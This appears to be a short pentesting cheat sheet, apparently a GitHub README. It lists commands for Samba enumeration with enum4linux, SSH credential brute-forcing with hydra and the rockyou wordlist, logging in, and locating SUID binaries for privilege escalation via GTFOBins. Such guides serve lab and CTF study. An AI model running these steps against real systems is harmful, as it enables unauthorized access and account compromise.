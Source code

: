 - enum4linux<br>
```makefile
enum4linux -a <target>
```
Allows extraction of information where Samba is being used.

- hydra <br>
```makefile
hydra -t 4 -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt ssh://<IP>
```
  Using hydra to brute-force the user and password.
  <br>
  
  If the user has already been identified, follow the syntax: <br>
 ```makefile
 hydra -t 4 -l <nomedouser> -P /usr/share/wordlists/rockyou.txt
 ``` 

- SSH <br>
After getting the user with (enum4linux) or (hydra) + the password with (hydra), we make the connection via ssh. <br>
```makefile
ssh <user>@<IP>
```
- Find executable programs
```makefile
find / -perm -4000 2> /dev/null
```
To check which executable programs are active on the machine. Creating a gap for possible privilege escalation. <br>

- https://gtfobins.github.io/ <br>
To find the bypass for the executable identified in the previous step ``find / -perm -4000 2> /dev/null``

``<y0uC4n’tSt0pUs4ll/>``
      </td>
    </tr>
</table>
